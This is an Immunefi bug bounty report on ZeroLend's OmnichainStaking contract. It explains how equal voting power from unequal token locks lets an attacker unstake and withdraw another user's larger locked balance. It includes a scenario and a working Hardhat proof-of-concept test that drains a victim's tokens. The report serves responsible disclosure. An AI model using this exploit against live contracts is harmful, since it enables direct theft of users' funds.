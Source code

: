
# Attacker can steal locked balance of staked nft at OmnichainStaking

Submitted on Tue Mar 05 2024 22:05:14 GMT-0400 (Atlantic Standard Time) by @MahdiKarimi for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29062

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/zerolend/governance

Impacts:
- Direct theft of any user NFTs, whether at-rest or in-motion, other than unclaimed royalties
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro
The OmnichainStaking's unstake function allows anyone to unstake any token by just burning associated voting power, since voting power is based on locked balance and lock duration so two different NFTS with different locked balances can have the same amount of power which allows an attacker to exchange an NFT with some locked balance for an NFT with more locked balance and shorter lock duration. 
The attacker can mint a tokenLocker NFT by locking some tokens for a long duration, stake it at OmnichainStaking to receive voting power, and use minted voting power to Unstake another NFT ( staked by another user ) with more locked balance and shorter lock duration from OmnichainStaking.
## Vulnerability Details
Users can utilize TokenLocker to create a lock by staking a certain amount of Zero tokens for a specified duration. TokenLocker then generates a unique NFT that represents the locked amount and the duration of the lock. Each NFT has a power value, calculated based on the locked amount and duration; more tokens and a longer lock duration contribute to a higher power. Users can stake these NFTs at OmnichainStaking contract and receive voting power proportional to the power of the TokenLocker NFT, OmnichainStaking has an unstakeToken function that allows anyone to unstake a token by burning the amount of voting power associated with that NFT.
users can receive the same amount of voting power by locking different amounts of Zero tokens due to different durations, this creates a situation that enables attackers to lock some amount of tokens for a long duration to receive voting power and use that voting power to unstake a tokenLocker NFT with more locked balance and lower lock duration.

Consider the following scenario : 
1 - Alice creates a lock with 40 Zero tokens for two years 
2 - Alice transfers minted NFT to omnichainStakign to receive voting power 
3 - Bob creates a lock with 20 Zero tokens for four years 
4 - Alice and Bob would receive the same amount of voting power ( both NFTs have the same power) 
5 - Bob Unstakes NFT of Alice from omniChainStaking ( he has enough voting power since both NFTs have minted the same voting power)
6 - Now Bob has an NFT representing 40 tokens locked for two years while he staked 20 tokens for 4 years. 
7 - Now Alice is forced to Unstake Bob's NFT which has 20 locked balances and has been locked for 4 years, he lost 20 tokens .

## Impact Details
Attackers can steal the locked balance of other users which is direct theft of funds. 
Also users can be forced to stake for a longer time.
## References
https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/BaseLocker.sol#L147
https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/BaseLocker.sol#L112-L116
https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/BaseLocker.sol#L362-L364
https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/OmnichainStaking.sol#L68-L70
https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/OmnichainStaking.sol#L76-L79

        
## Proof of concept
## Proof of Concept
```
  describe("attacker can drain staked amount of tokenLocker", () => {
    it("attacker can drain staked amount of tokenLocker", async function () {

    // impoerted whale address from goverancne deployment 
    // imported time from hardhat-network-helpers 
    // transferred 20 zero token to whale and 40 zero token to ant address during deployment 
    // removed vesting part from beforeEach 

    let fourYearInSeconds = 124416000;
    let twoYearInSeconds = 62208000;

    // attacker (whale) has 20 Zero tokens
    let balanceOfAttackerBefore = await zero.balanceOf(whale);
    expect(balanceOfAttackerBefore).eq(20n * e18);
    
    // Victim (ant) creates a lock with 40 Zero tokens for duration of 2 years 
    // ant transferrs minted nft to OmnichainStaking and receives power 
    zero.connect(ant).approve(locker.target, 40n * e18);
    await locker.connect(ant).createLock(40n * e18, twoYearInSeconds, false);
    await locker.connect(ant)["safeTransferFrom(address,address,uint256)"](ant.address, omniStaking.target, 1);

    // whale creates a lock with 20 Zero tokens but for duration of 4 years 
    // he transferrs minted nft to OmnichainStaking 
    // despite that he has locked half of ant address but due to more lock duration (2 times of ant) he would receive almost same amount of power 
    zero.connect(whale).approve(locker.target, 20n * e18);
    await locker.connect(whale).createLock(20n * e18, fourYearInSeconds, false);
    await locker.connect(whale)["safeTransferFrom(address,address,uint256)"](whale.address, omniStaking.target, 2);

    // we can assert that whale has more power than ant 
    let balanceWhale = await omniStaking.balanceOf(whale.address);
    let balanceAnt = await omniStaking.balanceOf(ant.address);
    expect(balanceWhale).greaterThanOrEqual(balanceAnt);

    // whale can unstake minted nft of ant from tokenLocker since he has enough power 
    // this nft has two times more lockedBalance 
    await omniStaking.connect(whale).unstakeToken(1);

    // after 2 years he can withdraw this token from locker 
    // Now whale has 40 Zero token balance 
    // so ant address should use his voting power to other token with 20 Zero balance and 4 years of lock duration

    await time.increase(twoYearInSeconds);
    await locker.connect(whale).withdraw(1);
    let balanceOfAttacker = await zero.balanceOf(whale);
    expect(balanceOfAttacker).eq(40n * e18);


    });
    
  });
```